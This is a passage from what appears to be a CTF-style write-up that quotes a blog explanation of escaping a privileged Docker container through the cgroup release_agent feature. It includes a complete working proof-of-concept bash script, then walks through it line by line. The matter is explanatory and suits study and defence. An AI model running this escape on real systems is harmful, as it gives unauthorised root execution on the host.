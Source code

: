 
If we search some articles about docker escape, we can find one of them which talks about this privesc technique:

https://vickieli.dev/system%20security/escape-docker/

On this article, we can check how to escape the container using a script:

**Container Escape**

So how do you escape a privileged container? By using this script. This example and PoC were taken from theÂ [Trail of Bits Blog](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). Read the original post for a more detailed explanation of the PoC:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

This PoC works by exploiting cgroupâ€™sÂ `release_agent`Â feature.

After the last process in a cgroup exits, a command used to remove abandoned cgroups runs. This command is specified in theÂ `release_agent`Â file and it runs as root on the host machine. By default, this feature is disabled and theÂ `release_agent`Â path is empty.

This exploit runs code through theÂ `release_agent`Â file. We need to create a cgroup, specify itsÂ `release_agent`Â file, and trigger theÂ `release_agent`Â by killing all the processes in the cgroup. The first line in the PoC creates a new group:

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

The next line enables theÂ `release_agent`Â feature:

```
echo 1 > /tmp/cgrp/x/notify_on_release
```

Then, the next few lines write the path of our command file to theÂ `release_agent`Â file:

```
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

We can then start writing to our command file. This script will execute theÂ `ps aux`Â command and save it to theÂ `/output`Â file. We also need to set the scriptâ€™s execute permission bits:

```
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
